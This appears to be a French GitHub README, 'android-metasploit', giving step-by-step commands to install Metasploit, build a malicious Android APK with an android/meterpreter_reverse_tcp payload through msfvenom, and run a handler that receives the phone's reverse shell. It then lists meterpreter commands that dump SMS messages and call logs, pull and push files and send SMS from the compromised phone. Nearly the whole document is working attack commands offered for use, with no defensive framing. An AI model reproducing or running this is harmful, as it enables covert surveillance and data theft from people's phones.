 # android-metasploit
Installer et configure android metasploit dans un serveur


# Installation

### Metasploit
- pour install metasploit executer la commande suivante dans le terminal de la machine. pour plus de detail <a href="https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html">visitez ici</a>

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

### Générer le fichier apk

```
cd /opt/metasploit-framework/bin
```

```
sudo msfvenom -p android/meterpreter_reverse_tcp LHOST=<IP de l'hôte> LPORT=<porte souhaité> -o /data/omg.apk
```

### Démarrer le metasploit
```
msfconsole

use exploit/multi/handler

set payload android/meterpreter_reverse_tcp

set lhost <IP de l'hôte>
set lport <port utilisé ci-dessus>

run
```

## Ça y est
Il reste qu'à install le fichier apk dans un téléphone android.

- démarrer server python heberger local pour le test
```
python3 http.server <port>
```



# Les commands 
Utilisation de command pour manipuler le téléphone android depuis le terminal metasploit.

- Recuperer tous les sms
```


dump_sms 
```

- Recuperer tous les historique des appels
```
dump_calllog
```


- Recuperer un fichier ou dossier
```
download /lechemin/vers/lefichier-ou-dossier-a/telecharger /chemin/de/suavegarde
```


- Envoyer un fichier ou dossier
```
upload /chemin/de/depuis/leserveur /lechemin/vers/android
```


- Envoyer sms
```
send_sms -d "numero de distination" "contenu du message"
```


- Quelque commands habituel
```
cd

pwd

ls
```


- dossier racine android
```
cd /storage/emulated/0 ou cd /sdcard
```


